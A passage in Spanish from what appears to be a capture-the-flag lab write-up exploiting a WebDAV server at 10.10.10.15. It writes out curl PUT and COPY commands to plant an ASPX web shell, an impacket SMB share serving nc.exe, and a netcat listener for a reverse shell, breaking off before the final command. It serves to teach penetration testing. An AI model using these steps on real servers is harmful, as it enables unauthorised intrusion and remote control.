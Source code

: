 Si accedemos ahora a `http://10.10.10.15/hola.aspx` podemos ver un error de interpretación. Por lo tanto es vulnerable.

## Explotación

Ahora haremos lo mismo pero con una *web shell*.

Si ejecutas `locate .aspx | grep cmd` podrás encontrar algunas *web shells* preinstaladas en tu Kali Linux o ParrotOS. En mi caso usaré `aspx_cmd.aspx` de el apartado de backdoors de davtest. Este mostrará un input para ejecutar comandos en la máquina víctima.

Una vez elegido el exploit, le cambiaremos la extensión a `.txt` y lo subiremos al servidor usando *webdav*. Por último lo renombramos:

```bash
# Lo renombramos
mv aspx_cmd.aspx cmd.txt

# Lo subimos al servidor
curl -X PUT http://10.10.10.15/cmd.txt -d @cmd.txt

# Le cambiamos la extensión en el servidor
curl -X COPY -H "Destination: http://10.10.10.15/cmd.aspx" http://10.10.10.15/cmd.txt
```
<br/>

Si accedemos a `http://10.10.10.15/cmd.aspx` podemos ver una *web shell*.

Ahora compartiremos el recurso `nc.exe` en un servidor *smb* para entablar una *reverse shell* para mayor comodidad:

```bash
sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

> Para encontrar el recurso nc.exe de tu Kali Linux o ParrosOS usa: `locate nc.exe`

<br/>

Y nos pondremos en escucha por un puerto para recibir la *reverse shell*:

```bash
sudo rlwrap nc -nlvp 443
```

<br/>


En `http://10.10.10.15/cmd.aspx` y ponemos el comando que usará este servidor de *smb* para usar el `nc.exe`:
